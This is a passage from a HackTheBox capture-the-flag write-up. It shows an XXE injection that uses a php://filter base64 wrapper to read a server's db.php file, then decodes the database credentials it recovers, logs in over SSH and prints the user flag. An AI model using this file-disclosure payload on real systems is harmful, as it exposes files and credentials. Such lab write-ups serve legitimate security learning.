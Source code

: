 This did actually render the [passwd file](https://github.com/finn-francis/hackthebox/blob/main/resources/bounty_hunter/passwd_results), which gave us a user:
```
development:x:1000:1000:Development:/home/development:/bin/bash
```

We then tried a few more files: `/etc/shadow`, `/home/development/user.txt` etc. But unfortunately nothing else showed up.

This found us at a bit of a dead end, so we took a step back and had a think about what to do next.

Whilst thinking we ran dirbuster, which ended up picking up an interesting file - `db.php`.
A little research found that `db.php` contains the database configurations.

Visiting `/db.php` of course yielded a blank page. So we tried an XXE file disclosure injection but to no avail.

We had a look through [this GitHub page](https://github.com/payloadbox/xxe-injection-payload-list), and the Access Control Bypass example caught my eye.
We ran the injection:
```javascript
    ...
    var xml = `<?xml  version="1.0" encoding="ISO-8859-1"?>
    !DOCTYPE foo [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
    <bugreport>
    <title>&xxe;</title>
    <cwe>${$('#cwe').val()}</cwe>
    ...
```
From what I understand, the above injection uses the php base64 encoder to bypass the standard authorization and return the base64 or the file.
It returned a base64 string: `PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=`

Converting this gave us exactly what we'd been looking for:
```php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

# User Level Access

Next thing to try was to SSH into the server and see if this password gave us access.
`root` and `admin` didn't have any luck, but when we tried with `developer` and used the password `m19RoAU0hP41A1sTsq6K` we ended up with a user shell.

This gave us the first flag:
```bash
cat user.txt
# => 9f5efe69c04462bd9b1264226a65445b
```
